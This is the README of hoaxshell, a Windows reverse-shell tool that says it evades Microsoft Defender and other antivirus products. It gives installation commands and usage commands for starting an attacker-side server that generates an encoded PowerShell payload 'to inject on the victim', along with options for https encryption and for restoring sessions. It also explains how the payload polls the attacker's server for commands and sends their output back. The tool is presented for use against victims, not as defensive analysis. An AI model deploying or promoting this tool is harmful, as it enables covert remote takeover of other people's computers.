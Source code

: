 # hoaxshell

[![Python 3.x](https://img.shields.io/badge/python-3.x-yellow.svg)](https://www.python.org/) 
<img src="https://img.shields.io/badge/powershell-%E2%89%A5%20v3.0-blue">
[![License](https://img.shields.io/badge/license-MIT-red.svg)](https://github.com/t3l3machus/hoaxshell/blob/main/LICENSE)
<img src="https://img.shields.io/badge/Maintained%3F-Yes-96c40f">
## Purpose

hoaxshell is an unconventional Windows reverse shell, currently undetected by Microsoft Defender and other AV solutions as it is solely based on http(s) traffic. The tool is easy to use, it produces it's own PowerShell base64 encoded or raw payload, it supports session restoration and encryption (ssl).  
  
So far, it has been tested on fully updated Windows 10 Pro and Windows 11 Enterprise boxes (see video and screenshots).
  
### Video Presentation  
https://www.youtube.com/

## Screenshots
![usage_example_png](https://raw.github.com/t3l3machus/hoaxshell/master/screenshots/hoaxshell-win11.png)
  
Find more screenshots [here](screenshots/).

## Installation
```
git clone https://github.com/t3l3machus/hoaxshell
cd ./hoaxshell
sudo pip3 install -r requirements.txt
chmod +x hoaxshell.py
```

## Usage
#### Basic shell session over http
```
sudo python3 hoaxshell.py -s <your_ip>
```  
hoaxshell will generate the PowerShell payload automatically base64 encoded for you to copy and inject on the victim. If you need the payload raw, execute the "rawpayload" prompt command. After the payload has been executed on the victim, you'll be able to run PowerShell commands against it.

#### Encrypted shell session (https):
```
# Generate self-signed certificate:
openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 365

# Pass the cert.pem and key.pem as arguments:
sudo python3 hoaxshell.py -s <your_ip> -c </path/to/cert.pem> -k <path/to/key.pem>

```  
The generated PowerShell payload will be longer in length because it includes an additional block of code that disables the ssl certificate validation.

#### Grab session mode
In case you close your terminal accidentally, have a power outage or something, you can start hoaxshell in grab session mode, it will attempt to re-establish a session, given that the payload is still running on the victim machine.
```
sudo python3 hoaxshell.py -s <your_ip> -g
```  
**Important**: Make sure to start hoaxshell with the same settings as the session you are trying to restore (http/https, port, etc).

## Limitations
The shell is going to hang if you execute a command that initiates an interactive session. Example:  
```
# this command will execute succesfully and you will have no problem: 
> powershell echo 'This is a test'

# But this one will open an interactive session within the hoaxshell session and is going to cause the shell to hang:
> powershell

# In the same manner, you won't have a problem executing this:
> cmd /c dir /a

# But this will cause your hoaxshell to hang:
cmd.exe
```
Long story short, you have to be careful to not run an exe or cmd that starts an interactive session within the hoaxshell powershell context.


## How it Works
The attacker issued commands are basically hosted via http/https (python HTTPServer). The generated payload submits the victim's machine into a loop that periodically requests the commands from the attacker's malicious http(s) server, executes them and then sends the output back to the malicious server via POST requests.


